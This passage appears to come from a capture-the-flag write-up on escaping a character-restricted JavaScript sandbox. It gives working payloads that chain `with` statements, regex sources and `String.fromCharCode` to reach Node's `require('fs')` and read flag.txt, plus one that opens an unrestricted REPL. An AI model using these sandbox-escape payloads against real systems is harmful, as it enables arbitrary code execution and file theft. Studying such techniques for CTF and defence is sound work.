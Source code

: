Since single quotes are not allowed, we can make them variables for better readability and then figure out how to remove them later:

``` js
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
```

Now we just need to generate the string, which can be done using `String.fromCharCode`:

``` js
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
with(mainModule)with(require(k))return(String(readFileSync(n))) // Same as above
```

Therefore, the final payload is to concatenate this code with the framework from earlier. I'll format it for better readability:

``` js
with(
  /with(String)
    with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
      with(mainModule)
        with(require(k))
          return(String(readFileSync(n)))
  /)
with(this)
  with(constructor)
    constructor(source)()
```

After seeing Maple's payload, I realized that the nested `with` can be bypassed using `with(a=source,/b/)`. For example:

``` js
with(/a/)with(/b/)console.log(source)
```

You can only get `/b/.source`, not `a`, because the properties have the same name. So you can write it like this:

``` js
with(/a/)with(a=source,/b/)console.log(a,source)
```

Use `a=source` in the second `with` to get the property from the previous `with`.

In addition to `with`, it also uses the magical built-in module `require('repl').start()`, which basically opens the repl mode and allows you to execute whatever you want, bypassing character restrictions. Here's the payload:

``` js
with(/with(process)with(mainModule)with(require(x))start()/)
  with(s1=source,/x/)
  with(s2=source,/repl/)
  with(s3=source,this)
    with(constructor)
      constructor(s2,s1)(s3)
```
